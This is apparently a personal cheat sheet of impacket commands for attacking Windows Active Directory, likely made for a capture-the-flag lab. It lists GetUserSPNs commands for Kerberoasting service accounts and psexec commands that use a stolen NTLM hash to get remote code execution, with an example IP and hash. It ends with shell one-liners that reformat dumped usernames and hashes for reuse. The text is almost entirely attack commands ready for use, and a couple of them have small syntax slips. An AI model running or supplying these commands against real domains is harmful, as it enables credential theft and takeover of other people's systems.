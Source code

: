 ## impacket

#### Basic commands

**Kerberoasting - Listing kerberoasts user accounts:**

```
impacket-GetUserSPNs <domain>/<user>:<pass>> -dc-ip <ip> -request
```

**Kerberoasting - Getting kerberoastable accounts > output to tickets.txt**

```
impacket-GetUserSPNs soupedecode.local/<user>:<pass> -dc-ip <ip> -request -output tickets.txt
```

**Kerberoasting - Getting RCE with kerberoast username and hash**

```
impacket-psexec '<user>$'@$<ip> -hashes '<hash>'
```

*example*

```
impacket-psexec 'FileServer$'@10.10.110.164 -hashes 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559
```
#### Formatting Commands for credentials
**if found list of extracted kerberoast username and hashes in full format:**

```
cat backup_extract.txt | cut -d ':' -f 1 > extracted_users.txt
```

```
cat backup_extract.txt | cut -d ':' -f 4 | awk '{print "00000000000000000000000000000000:"$1}' > extracted_hashes.txt
```
